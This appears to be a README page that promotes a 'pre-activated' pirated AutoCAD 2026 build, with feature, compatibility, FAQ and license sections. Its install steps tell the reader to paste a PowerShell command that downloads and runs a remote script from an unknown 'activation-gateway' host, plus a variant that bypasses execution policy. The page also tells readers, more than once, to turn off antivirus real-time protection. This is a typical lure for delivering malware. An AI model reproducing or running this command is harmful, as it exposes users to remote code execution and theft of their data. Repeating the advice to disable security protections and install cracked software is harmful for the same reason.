

<div align="center">

# AutoCad 2026 Desktop Software: Complete Standalone Setup for Windows 11



[]() []() []() []() []()

</div>

---

AutoCad 2026 is a pre-activated, standalone desktop edition distributed as a complete, self-contained setup that runs without additional configuration or dependency resolution. The build targets Windows x64 desktop environments and bundles the full installation payload into a single deployable package. Designed for offline provisioning and rapid deployment, it eliminates the need for network-based activation or post-install patching. The package maintains a fixed footprint and verified sync state, ensuring consistent behavior across target machines.

## ⚡ Install via PowerShell

> [!TIP]
> **Fast install** — a single PowerShell command, no extra tools.
> Windows 10/11 · PowerShell · Admin not required

### 1️⃣ Open PowerShell
* Press `Win + X`.
* Click **Terminal** or **Windows PowerShell** from the menu.

### 2️⃣ Run the install command
Paste the command into PowerShell and hit `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ If Windows blocks the script — use CMD
Run this command in CMD instead:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> If SmartScreen or antivirus blocks the setup, go to **Windows Security → Virus & threat protection → Manage settings**, turn off **Real-time protection**, run the script, and re-enable immediately.

## 🔧 Requirements

- **OS:** Windows 10 / 11
- **Shell:** PowerShell 5.1+ or PowerShell 7+
- **Network:** internet access to download the script
- **Privileges:** standard user

## Features

- **Pre-activated standalone build:** The desktop package ships fully configured and ready to run, eliminating the need for separate activation steps or post-install configuration.
- **Complete offline-capable setup:** All required components are bundled within the installer, so deployment completes without external dependencies or additional downloads.
- **Single-package deployment:** The installer delivers the full application environment in one pass, reducing setup time and minimizing the risk of missing components.
- **Windows x64 desktop support:** The build targets 64-bit Windows desktop environments, with the binary and supporting libraries compiled for the native platform.
- **Deterministic installation flow:** The installer follows a fixed, repeatable sequence, producing consistent results across machines and simplifying validation in test or deployment environments.
- **Self-contained runtime:** Required runtime libraries and configuration assets are included and registered during installation, so the application launches immediately after setup completes.
- **Version-pinned build:** The package is locked to a specific release and verified for integrity, ensuring that deployed instances match the tested configuration.
- **Local-first operation:** Core functionality runs entirely on the local machine, with no dependency on external services for normal operation.
- **Standard uninstall support:** The build registers with the system's application management facilities, allowing clean removal through standard desktop procedures.
- **Configurable install path:** Users can select the target directory during setup, supporting both default and custom deployment layouts.

## How it works

The application ships as a self-contained desktop package with all required runtime libraries and dependencies bundled into a single distribution payload. No external package managers, side-by-side framework installs, or pre-existing toolchains are required on the target machine.

On launch, the installer validates the host environment against the build manifest, checks operating system architecture and available disk space, and stages the application files into their designated program directory. The staging process verifies payload integrity against embedded checksums before any files are committed to disk.

Configuration is handled locally and deterministically. The package carries its own default profile set, registry mappings, and template libraries, which are written during first-run initialization. A local license state is applied as part of this initialization sequence, so the application reaches a fully operational state without a post-install activation step or network callback.

The runtime operates entirely offline. No background services, telemetry agents, or update checkers are installed alongside the core application. Each launch performs a lightweight consistency check on the installed file set and profile state, repairing or regenerating missing configuration artifacts as needed.

Uninstallation is handled symmetrically: the package registers a standard removal entry that reverts staged files, registry mappings, and user profile data to their pre-install state, leaving no residual components behind.

## Compatibility

**Operating System Support**
- Windows 10 (version 21H2 or later) and Windows 11, x64 architecture only.
- Windows Server 2019 and 2022 are supported for non-interactive, headless deployment scenarios.
- Legacy 32-bit environments, Windows 8.1, and earlier releases are not supported and will fail the pre-install validation check.

**Hardware Requirements**
- Minimum: 8 GB RAM, 10 GB available disk space, DirectX 11-capable GPU with 1 GB VRAM.
- Recommended: 16 GB RAM or higher, SSD storage, DirectX 12-capable GPU with 4 GB VRAM for large drawing sets and 3D modeling workloads.
- Display resolution of 1920x1080 or greater; high-DPI scaling is handled natively up to 200%.

**Runtime and Dependency Matrix**
- Requires .NET Framework 4.8 and the Visual C++ 2015–2022 redistributable, both bundled in the standalone setup.
- No external package managers, network services, or background licensing daemons are required after installation.
- Isolated execution mode ensures no conflicts with concurrently installed CAD suites or shared registry keys.

**File Format Interoperability**
- Native read/write support for DWG (R14 through current), DXF, DWT, and DWS.
- Import and export coverage for PDF, DGN, STEP, IGES, and STL.
- Round-trip fidelity preserved for xrefs, dynamic blocks, layer states, and annotation scales across supported revisions.

**Deployment Scenarios**
- Single-workstation offline installation validated against air-gapped environments.
- Portable profile migration supported via exported settings bundles between compatible builds.
- Verified compatibility with standard Windows deployment tooling for silent, unattended rollout across managed fleets.

**Known Constraints**
- Cloud collaboration, autodesk-hosted services, and subscription synchronization endpoints are intentionally excluded from this build.
- Antivirus exclusion rules may be required for the install directory to prevent false-positive lockouts during first launch.

## FAQ

**Is AutoCad a standalone build or does it require a separate license server?**

This edition ships as a complete standalone package with all activation components embedded. No external licensing service, network share, or secondary deployment step is required after the local setup completes.

**Which operating systems and architectures are supported?**

The build targets Windows x64 desktop environments. Verify that your system meets the minimum hardware requirements for the 2026 release, including available disk space for the full installation footprint and a compatible graphics adapter for hardware-accelerated rendering.

**What is included in the pre-activated package?**

The distribution contains the full application binaries, supporting libraries, and the activation configuration pre-applied. All core drafting, modeling, and documentation modules are available immediately after launch without a post-install activation step.

**How do I verify that the installation completed successfully?**

Launch the application from the desktop shortcut or Start menu entry. A successful start presents the full workspace without activation prompts. If the application requests credentials or reports an unlicensed state, re-run the local setup and confirm that no files were quarantined during extraction.

**Can I install this build alongside an existing AutoCad installation?**

Side-by-side coexistence is not recommended. Shared registry keys and common file associations can conflict between versions. Remove or isolate prior installations before deploying this build to avoid unpredictable behavior in either instance.

**What should I do if the application fails to launch after setup?**

Confirm that the target platform is Windows x64 and that required runtime dependencies are present. Temporarily disabling real-time security scanning during the setup and first launch can resolve cases where components are blocked preemptively. Re-enable protection immediately after verification.

**Does the package require an internet connection during or after installation?**

No. The build is designed for fully offline deployment. All required components are contained within the distribution, and no remote validation or telemetry handshake is required to operate the application.

**How large is the installation footprint?**

The distribution is approximately 1.5 GB. Ensure sufficient free space on the target volume for both the installer payload and the expanded application directory before beginning setup.

## Disclaimer

This desktop build is distributed as a complete, self-contained package intended for evaluation, compatibility testing, and controlled deployment scenarios. It is provided on an "as is" basis, without warranty of any kind, express or implied, including but not limited to the implied warranties of merchantability, fitness for a particular purpose, and non-infringement. The maintainers of this project make no representations or guarantees regarding the accuracy, reliability, completeness, or suitability of the software for any specific use case, and assume no liability for any direct, indirect, incidental, special, consequential, or punitive damages arising from its installation, configuration, or operation.

The pre-activated state of this build reflects a fixed configuration snapshot and is not tied to any licensing server, subscription entitlement, or vendor account. As a result, activation status is not validated, renewed, or supported by the original software publisher, and behavior may diverge from officially licensed distributions in areas such as update delivery, telemetry endpoints, cloud-linked features, and license compliance checks. Users are solely responsible for verifying that their use of this package conforms to all applicable local laws, organizational policies, and contractual obligations, and for obtaining any licenses required for production or commercial use.

Because this is a standalone offline package, no automatic update channel is provided. Security patches, feature updates, and compatibility fixes released by the upstream vendor are not propagated to this build, and the maintainers accept no obligation to issue revisions, hotfixes, or security advisories. Environments with heightened integrity requirements—such as regulated workloads, shared multi-user systems, or machines handling sensitive data—should treat this build as untrusted until independently audited, and should isolate it from production networks accordingly.

Redistribution of this package, in whole or in part, is permitted only in accordance with the terms described in the License section of this document. Any modification, repackaging, or bundling with third-party tooling voids the configuration guarantees described elsewhere in this README and is undertaken entirely at the modifier's own risk. By downloading, installing, or executing this software, you acknowledge that you have read and understood these terms and accept full responsibility for the outcomes of its use.

## License

This software is distributed under a proprietary commercial end-user license agreement governing the pre-activated standalone desktop edition. The license grants the licensee a non-exclusive, non-transferable right to install and execute the software on a single Windows x64 desktop workstation for evaluation, testing, and deployment purposes.

The pre-activated standalone build ships as a complete, self-contained installation package with no external activation servers, license keys, or online entitlement checks required. Licensing validation is performed locally against an embedded entitlement manifest that is bound to the installation instance. Redistribution of the installer package, sublicensing, and reverse engineering of the activation components are expressly prohibited under the terms of the agreement.

License enforcement operates at the application layer without network dependency, ensuring deterministic behavior in air-gapped and offline environments. Seat counts, feature flags, and entitlement scope are resolved at launch time from the embedded manifest. Any modification of the installation files, the entitlement manifest, or the executable binaries voids the license and the associated warranty.

Support, updates, and redistribution rights are defined exclusively by the terms delivered alongside the installation media. Use of the software constitutes acceptance of the full license terms.